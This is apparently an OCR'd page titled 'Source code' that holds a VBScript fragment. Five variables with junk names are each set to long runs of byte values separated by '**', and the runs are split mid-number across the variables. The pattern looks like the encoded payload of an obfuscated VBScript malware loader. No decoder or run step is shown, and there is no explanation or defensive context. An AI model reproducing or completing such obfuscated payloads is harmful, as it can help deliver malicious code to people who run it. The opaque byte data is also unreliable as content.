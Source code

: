 ```vbscript
lgbt5gwIdE = ("**94**116**115**185**189**182**206**35**231**141**29**155**225**16**62**74**139**25**43**49**140**65**45**61**233**247**48**179**166**101**26**164**108**118**1**26**101**32**137**177**237**231**131**219**64**249**164**225**212**234**146**134**219**192**52**206**203**62**173**241**192**43**188**27**197**174**233**210**135**77**83**177**177**148**18**196**156**105**232**237**140**229**92**158**34**95**198**216**187**105**108**216**98**108**97**44**123**8**185**115**61**99**123**135**144**235**37**79**145**55**42**224**51**178**152**6**136**230**154**156**132**86**170**88**105**85**158**199**165**184**80**39**53**62**119**154**212**69**3**245**156**44**191**45**47**164**41**122**12**76**91**60**210**203**57**77**207**153**39**215**84**122**177**58**219**105**110**165**76**27**243**146**33**244**214**132**195**84**175**74**126**156**94**26**104**92**159**54**46**143**97**16**52**10**116**233**64**61**142**175**176**108**9**213**179**53**67**13**95**238**16**122**138**159**143**107**167**14")

lgbtchFy25 = ("3**22**161**119**197**16**122**161**112**200**205**196**154**109**23**58**211**79**215**99**231**202**151**150**242**104**239**204**86**143**211**201**154**218**148**156**238**34**135**137**132**224**70**138**123**183**145**63**166**234**190**104**175**25**117**219**121**78**150**40**207**96**44**218**107**76**220**155**201**88**34**96**102**172**185**200**49**61**86**228**176**181**26**243**157**220**146**85**57**201**210**88**197**155**124**77**208**111**134**94**46**184**41**113**11**30**229**214**236**42**62**228**220**248**196**182**245**78**246**144**9**182**232**52**198**11**109**49**163**35**241**61**93**69**147**229**147**236**138**129**178**82**146**93**0**89**226**66**124**196**199**115**15**182**68**197**88**192**251**240**104**98**167**21**61**163**169**135**244**77**173**76**24**182**18**44**50**125**8**125**177**142**68**239**121**96**57**142**68**35**182**160**102**101**42**197**35**55**94**228**200**143**195**112**246**143**25**107**219**48**123**118**51**88**104**225*")

lgbt7nkEqi = ("*75**6**17**25**166**69**134**34**149**120**14**230**209**227**6**107**227**103**104**53**181**89**155**182**131**23**180**69**59**115**87**182**27**89**115**61**155**189**13**198**202**77**179**255**158**216**132**217**247**130**69**222**239**121**118**118**58**181**231**206**158**72**237**183**83**188**18**79**84**106**94**21**31**34**244**75**33**84**247**237**82**81**122**118**20**28**60**82**143**74**243**206**169**250**82**9**211**76**50**117**8**211**27**1**166**49**12**61**209**33**204**143**172**209**68**166**20**209**205**36**130**27**67**10**130**223**217**224**102**175**122**228**154**129**125**124**136**87**69**223**4**244**181**164**116**242**128**236**64**103**211**65**238**216**218**248**167**83**170**138**160**231**36**230**33**105**16**213**156**35**31**64**210**252**60**1**110**222**51**141**88**180**55**7**166**228**65**29**191**11**153**144**88**247**5**52**176**16**3**250**165**254**254**155**6**246**183**238**131**80**61**28**59**166**183**59**121**187**69**47**7")

lgbt3n5kSb = ("5**99**31**69**123**179**91**109**249**60**221**174**167**140**70**178**39**238**31**205**179**184**169**237**69**50**82**198**211**52**44**78**45**51**98**188**207**20**107**111**218**175**140**161**180**135**173**186**31**21**231**56**88**198**49**179**215**59**146**227**193**255**170**142**150**254**130**89**26**155**23**120**122**178**196**250**68**63**150**162**109**134**59**74**213**235**246**42**163**173**207**219**26**247**71**122**63**237**64**98**232**246**203**151**149**111**233**45**49**242**149**180**145**4**220**44**120**242**97**20**17**118**56**249**35**53**131**154**137**123**70**17**204**172**88**59**34**156**27**111**116**84**193**71**44**203**129**254**28**97**150**45**120**86**26**27**218**61**165**52**61**20**137**69**220**151**61**246**42**90**211**225**203**67**190**204**131**124**53**112**95**37**26**134**1**190**232**9**35**152**139**181**190**153**172**96**187**49**33**9**159**93**120**240**103**146**102**186**152**204**36**178**152**225**224**123**193**71**2")

lgbtmGiAAY = ("33**164**100**251**178**185**51**77**61**209**206**85**179**128**174**198**56**112**122**13**98**122**210**153**61**56**105**97**119**113**15**57**209**227**72**205**103**32**140**47**113**204**136**117**55**251**29**51**154**43**28**78**172**118**137**183**37**230**119**152**185**45**69**160**194**97**164**145**75**53**144**152**199**44**29**40**239**154**69**115**48**99**197**103**240**185**184**4**64**180**155**218**34**207**147**229**37**92**100**140**211**22**9**0**214**100**51**151**154**76**107**194**79**226**42**173**138**53**222**123**192**192**18**83**181**102**34**128**149**219**210**73**217**177**114**117**229**170**14**177**31**39**230**99**147**19**249**165**229**207**30**154**205**125**142**125**98**194**75**41**147**177**169**77**27**75**155**82**172**203**218**248**31**146**22**18**41**53**168**128**48**118**172**22**92**226**241**241**56**247**89**244**4**118**179**106**36**70**244**132**164**140**163**190**207**205**4**130**134**224**32**162**199**101**235**221**47**")

```